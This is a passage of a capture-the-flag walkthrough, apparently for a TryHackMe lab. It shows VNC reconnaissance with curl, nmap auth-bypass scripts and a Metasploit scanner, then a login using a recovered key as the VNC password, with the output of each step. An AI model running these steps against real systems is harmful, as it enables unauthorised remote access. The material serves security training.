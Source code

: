 ```jsx
Key found: 311781a1830c1332a903920a59eb6d7a
```

> **VNC (Virtual Network Computing) Protocol Phase**
> 

**For more information:**

[5800,5801,5900,5901 - Pentesting VNC | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc)

`curl -iLX GET -D vncresponse.txt http://dx1liberty.thm:5901`

```jsx
Received HTTP/0.9 when not allowed
```

`nmap -sV -A -oN nmap_vnc_result.txt -p 5901 --script vnc-info,realvnc-auth-bypass,vnc-title -Pn $target_ip`

```jsx
PORT     STATE SERVICE VERSION
5901/tcp open  vnc     VNC (protocol 3.8)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

`msfconsole -qx 'use auxiliary/scanner/vnc/vnc_none_auth'` 

```jsx
msf6 auxiliary(scanner/vnc/vnc_none_auth) > set RHOSTS 10.10.41.58
RHOSTS => 10.10.41.58
msf6 auxiliary(scanner/vnc/vnc_none_auth) > set RPORT 5901
RPORT => 5901
msf6 auxiliary(scanner/vnc/vnc_none_auth) > run
[*] 10.10.41.58:5901      - 10.10.41.58:5901 - VNC server protocol version: 3.8
[*] 10.10.41.58:5901      - 10.10.41.58:5901 - VNC server security types supported: VeNCrypt, VNC
[*] 10.10.41.58:5901      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`vncviewer $target_ip:5901`

```jsx
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password:  311781a1830c1332a903920a59eb6d7a
Authentication successful
Desktop name "unatco-cmd:1 (ajacobson)"
VNC server default format:
  16 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 31 green 63 blue 31, shift red 11 green 5 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0

```
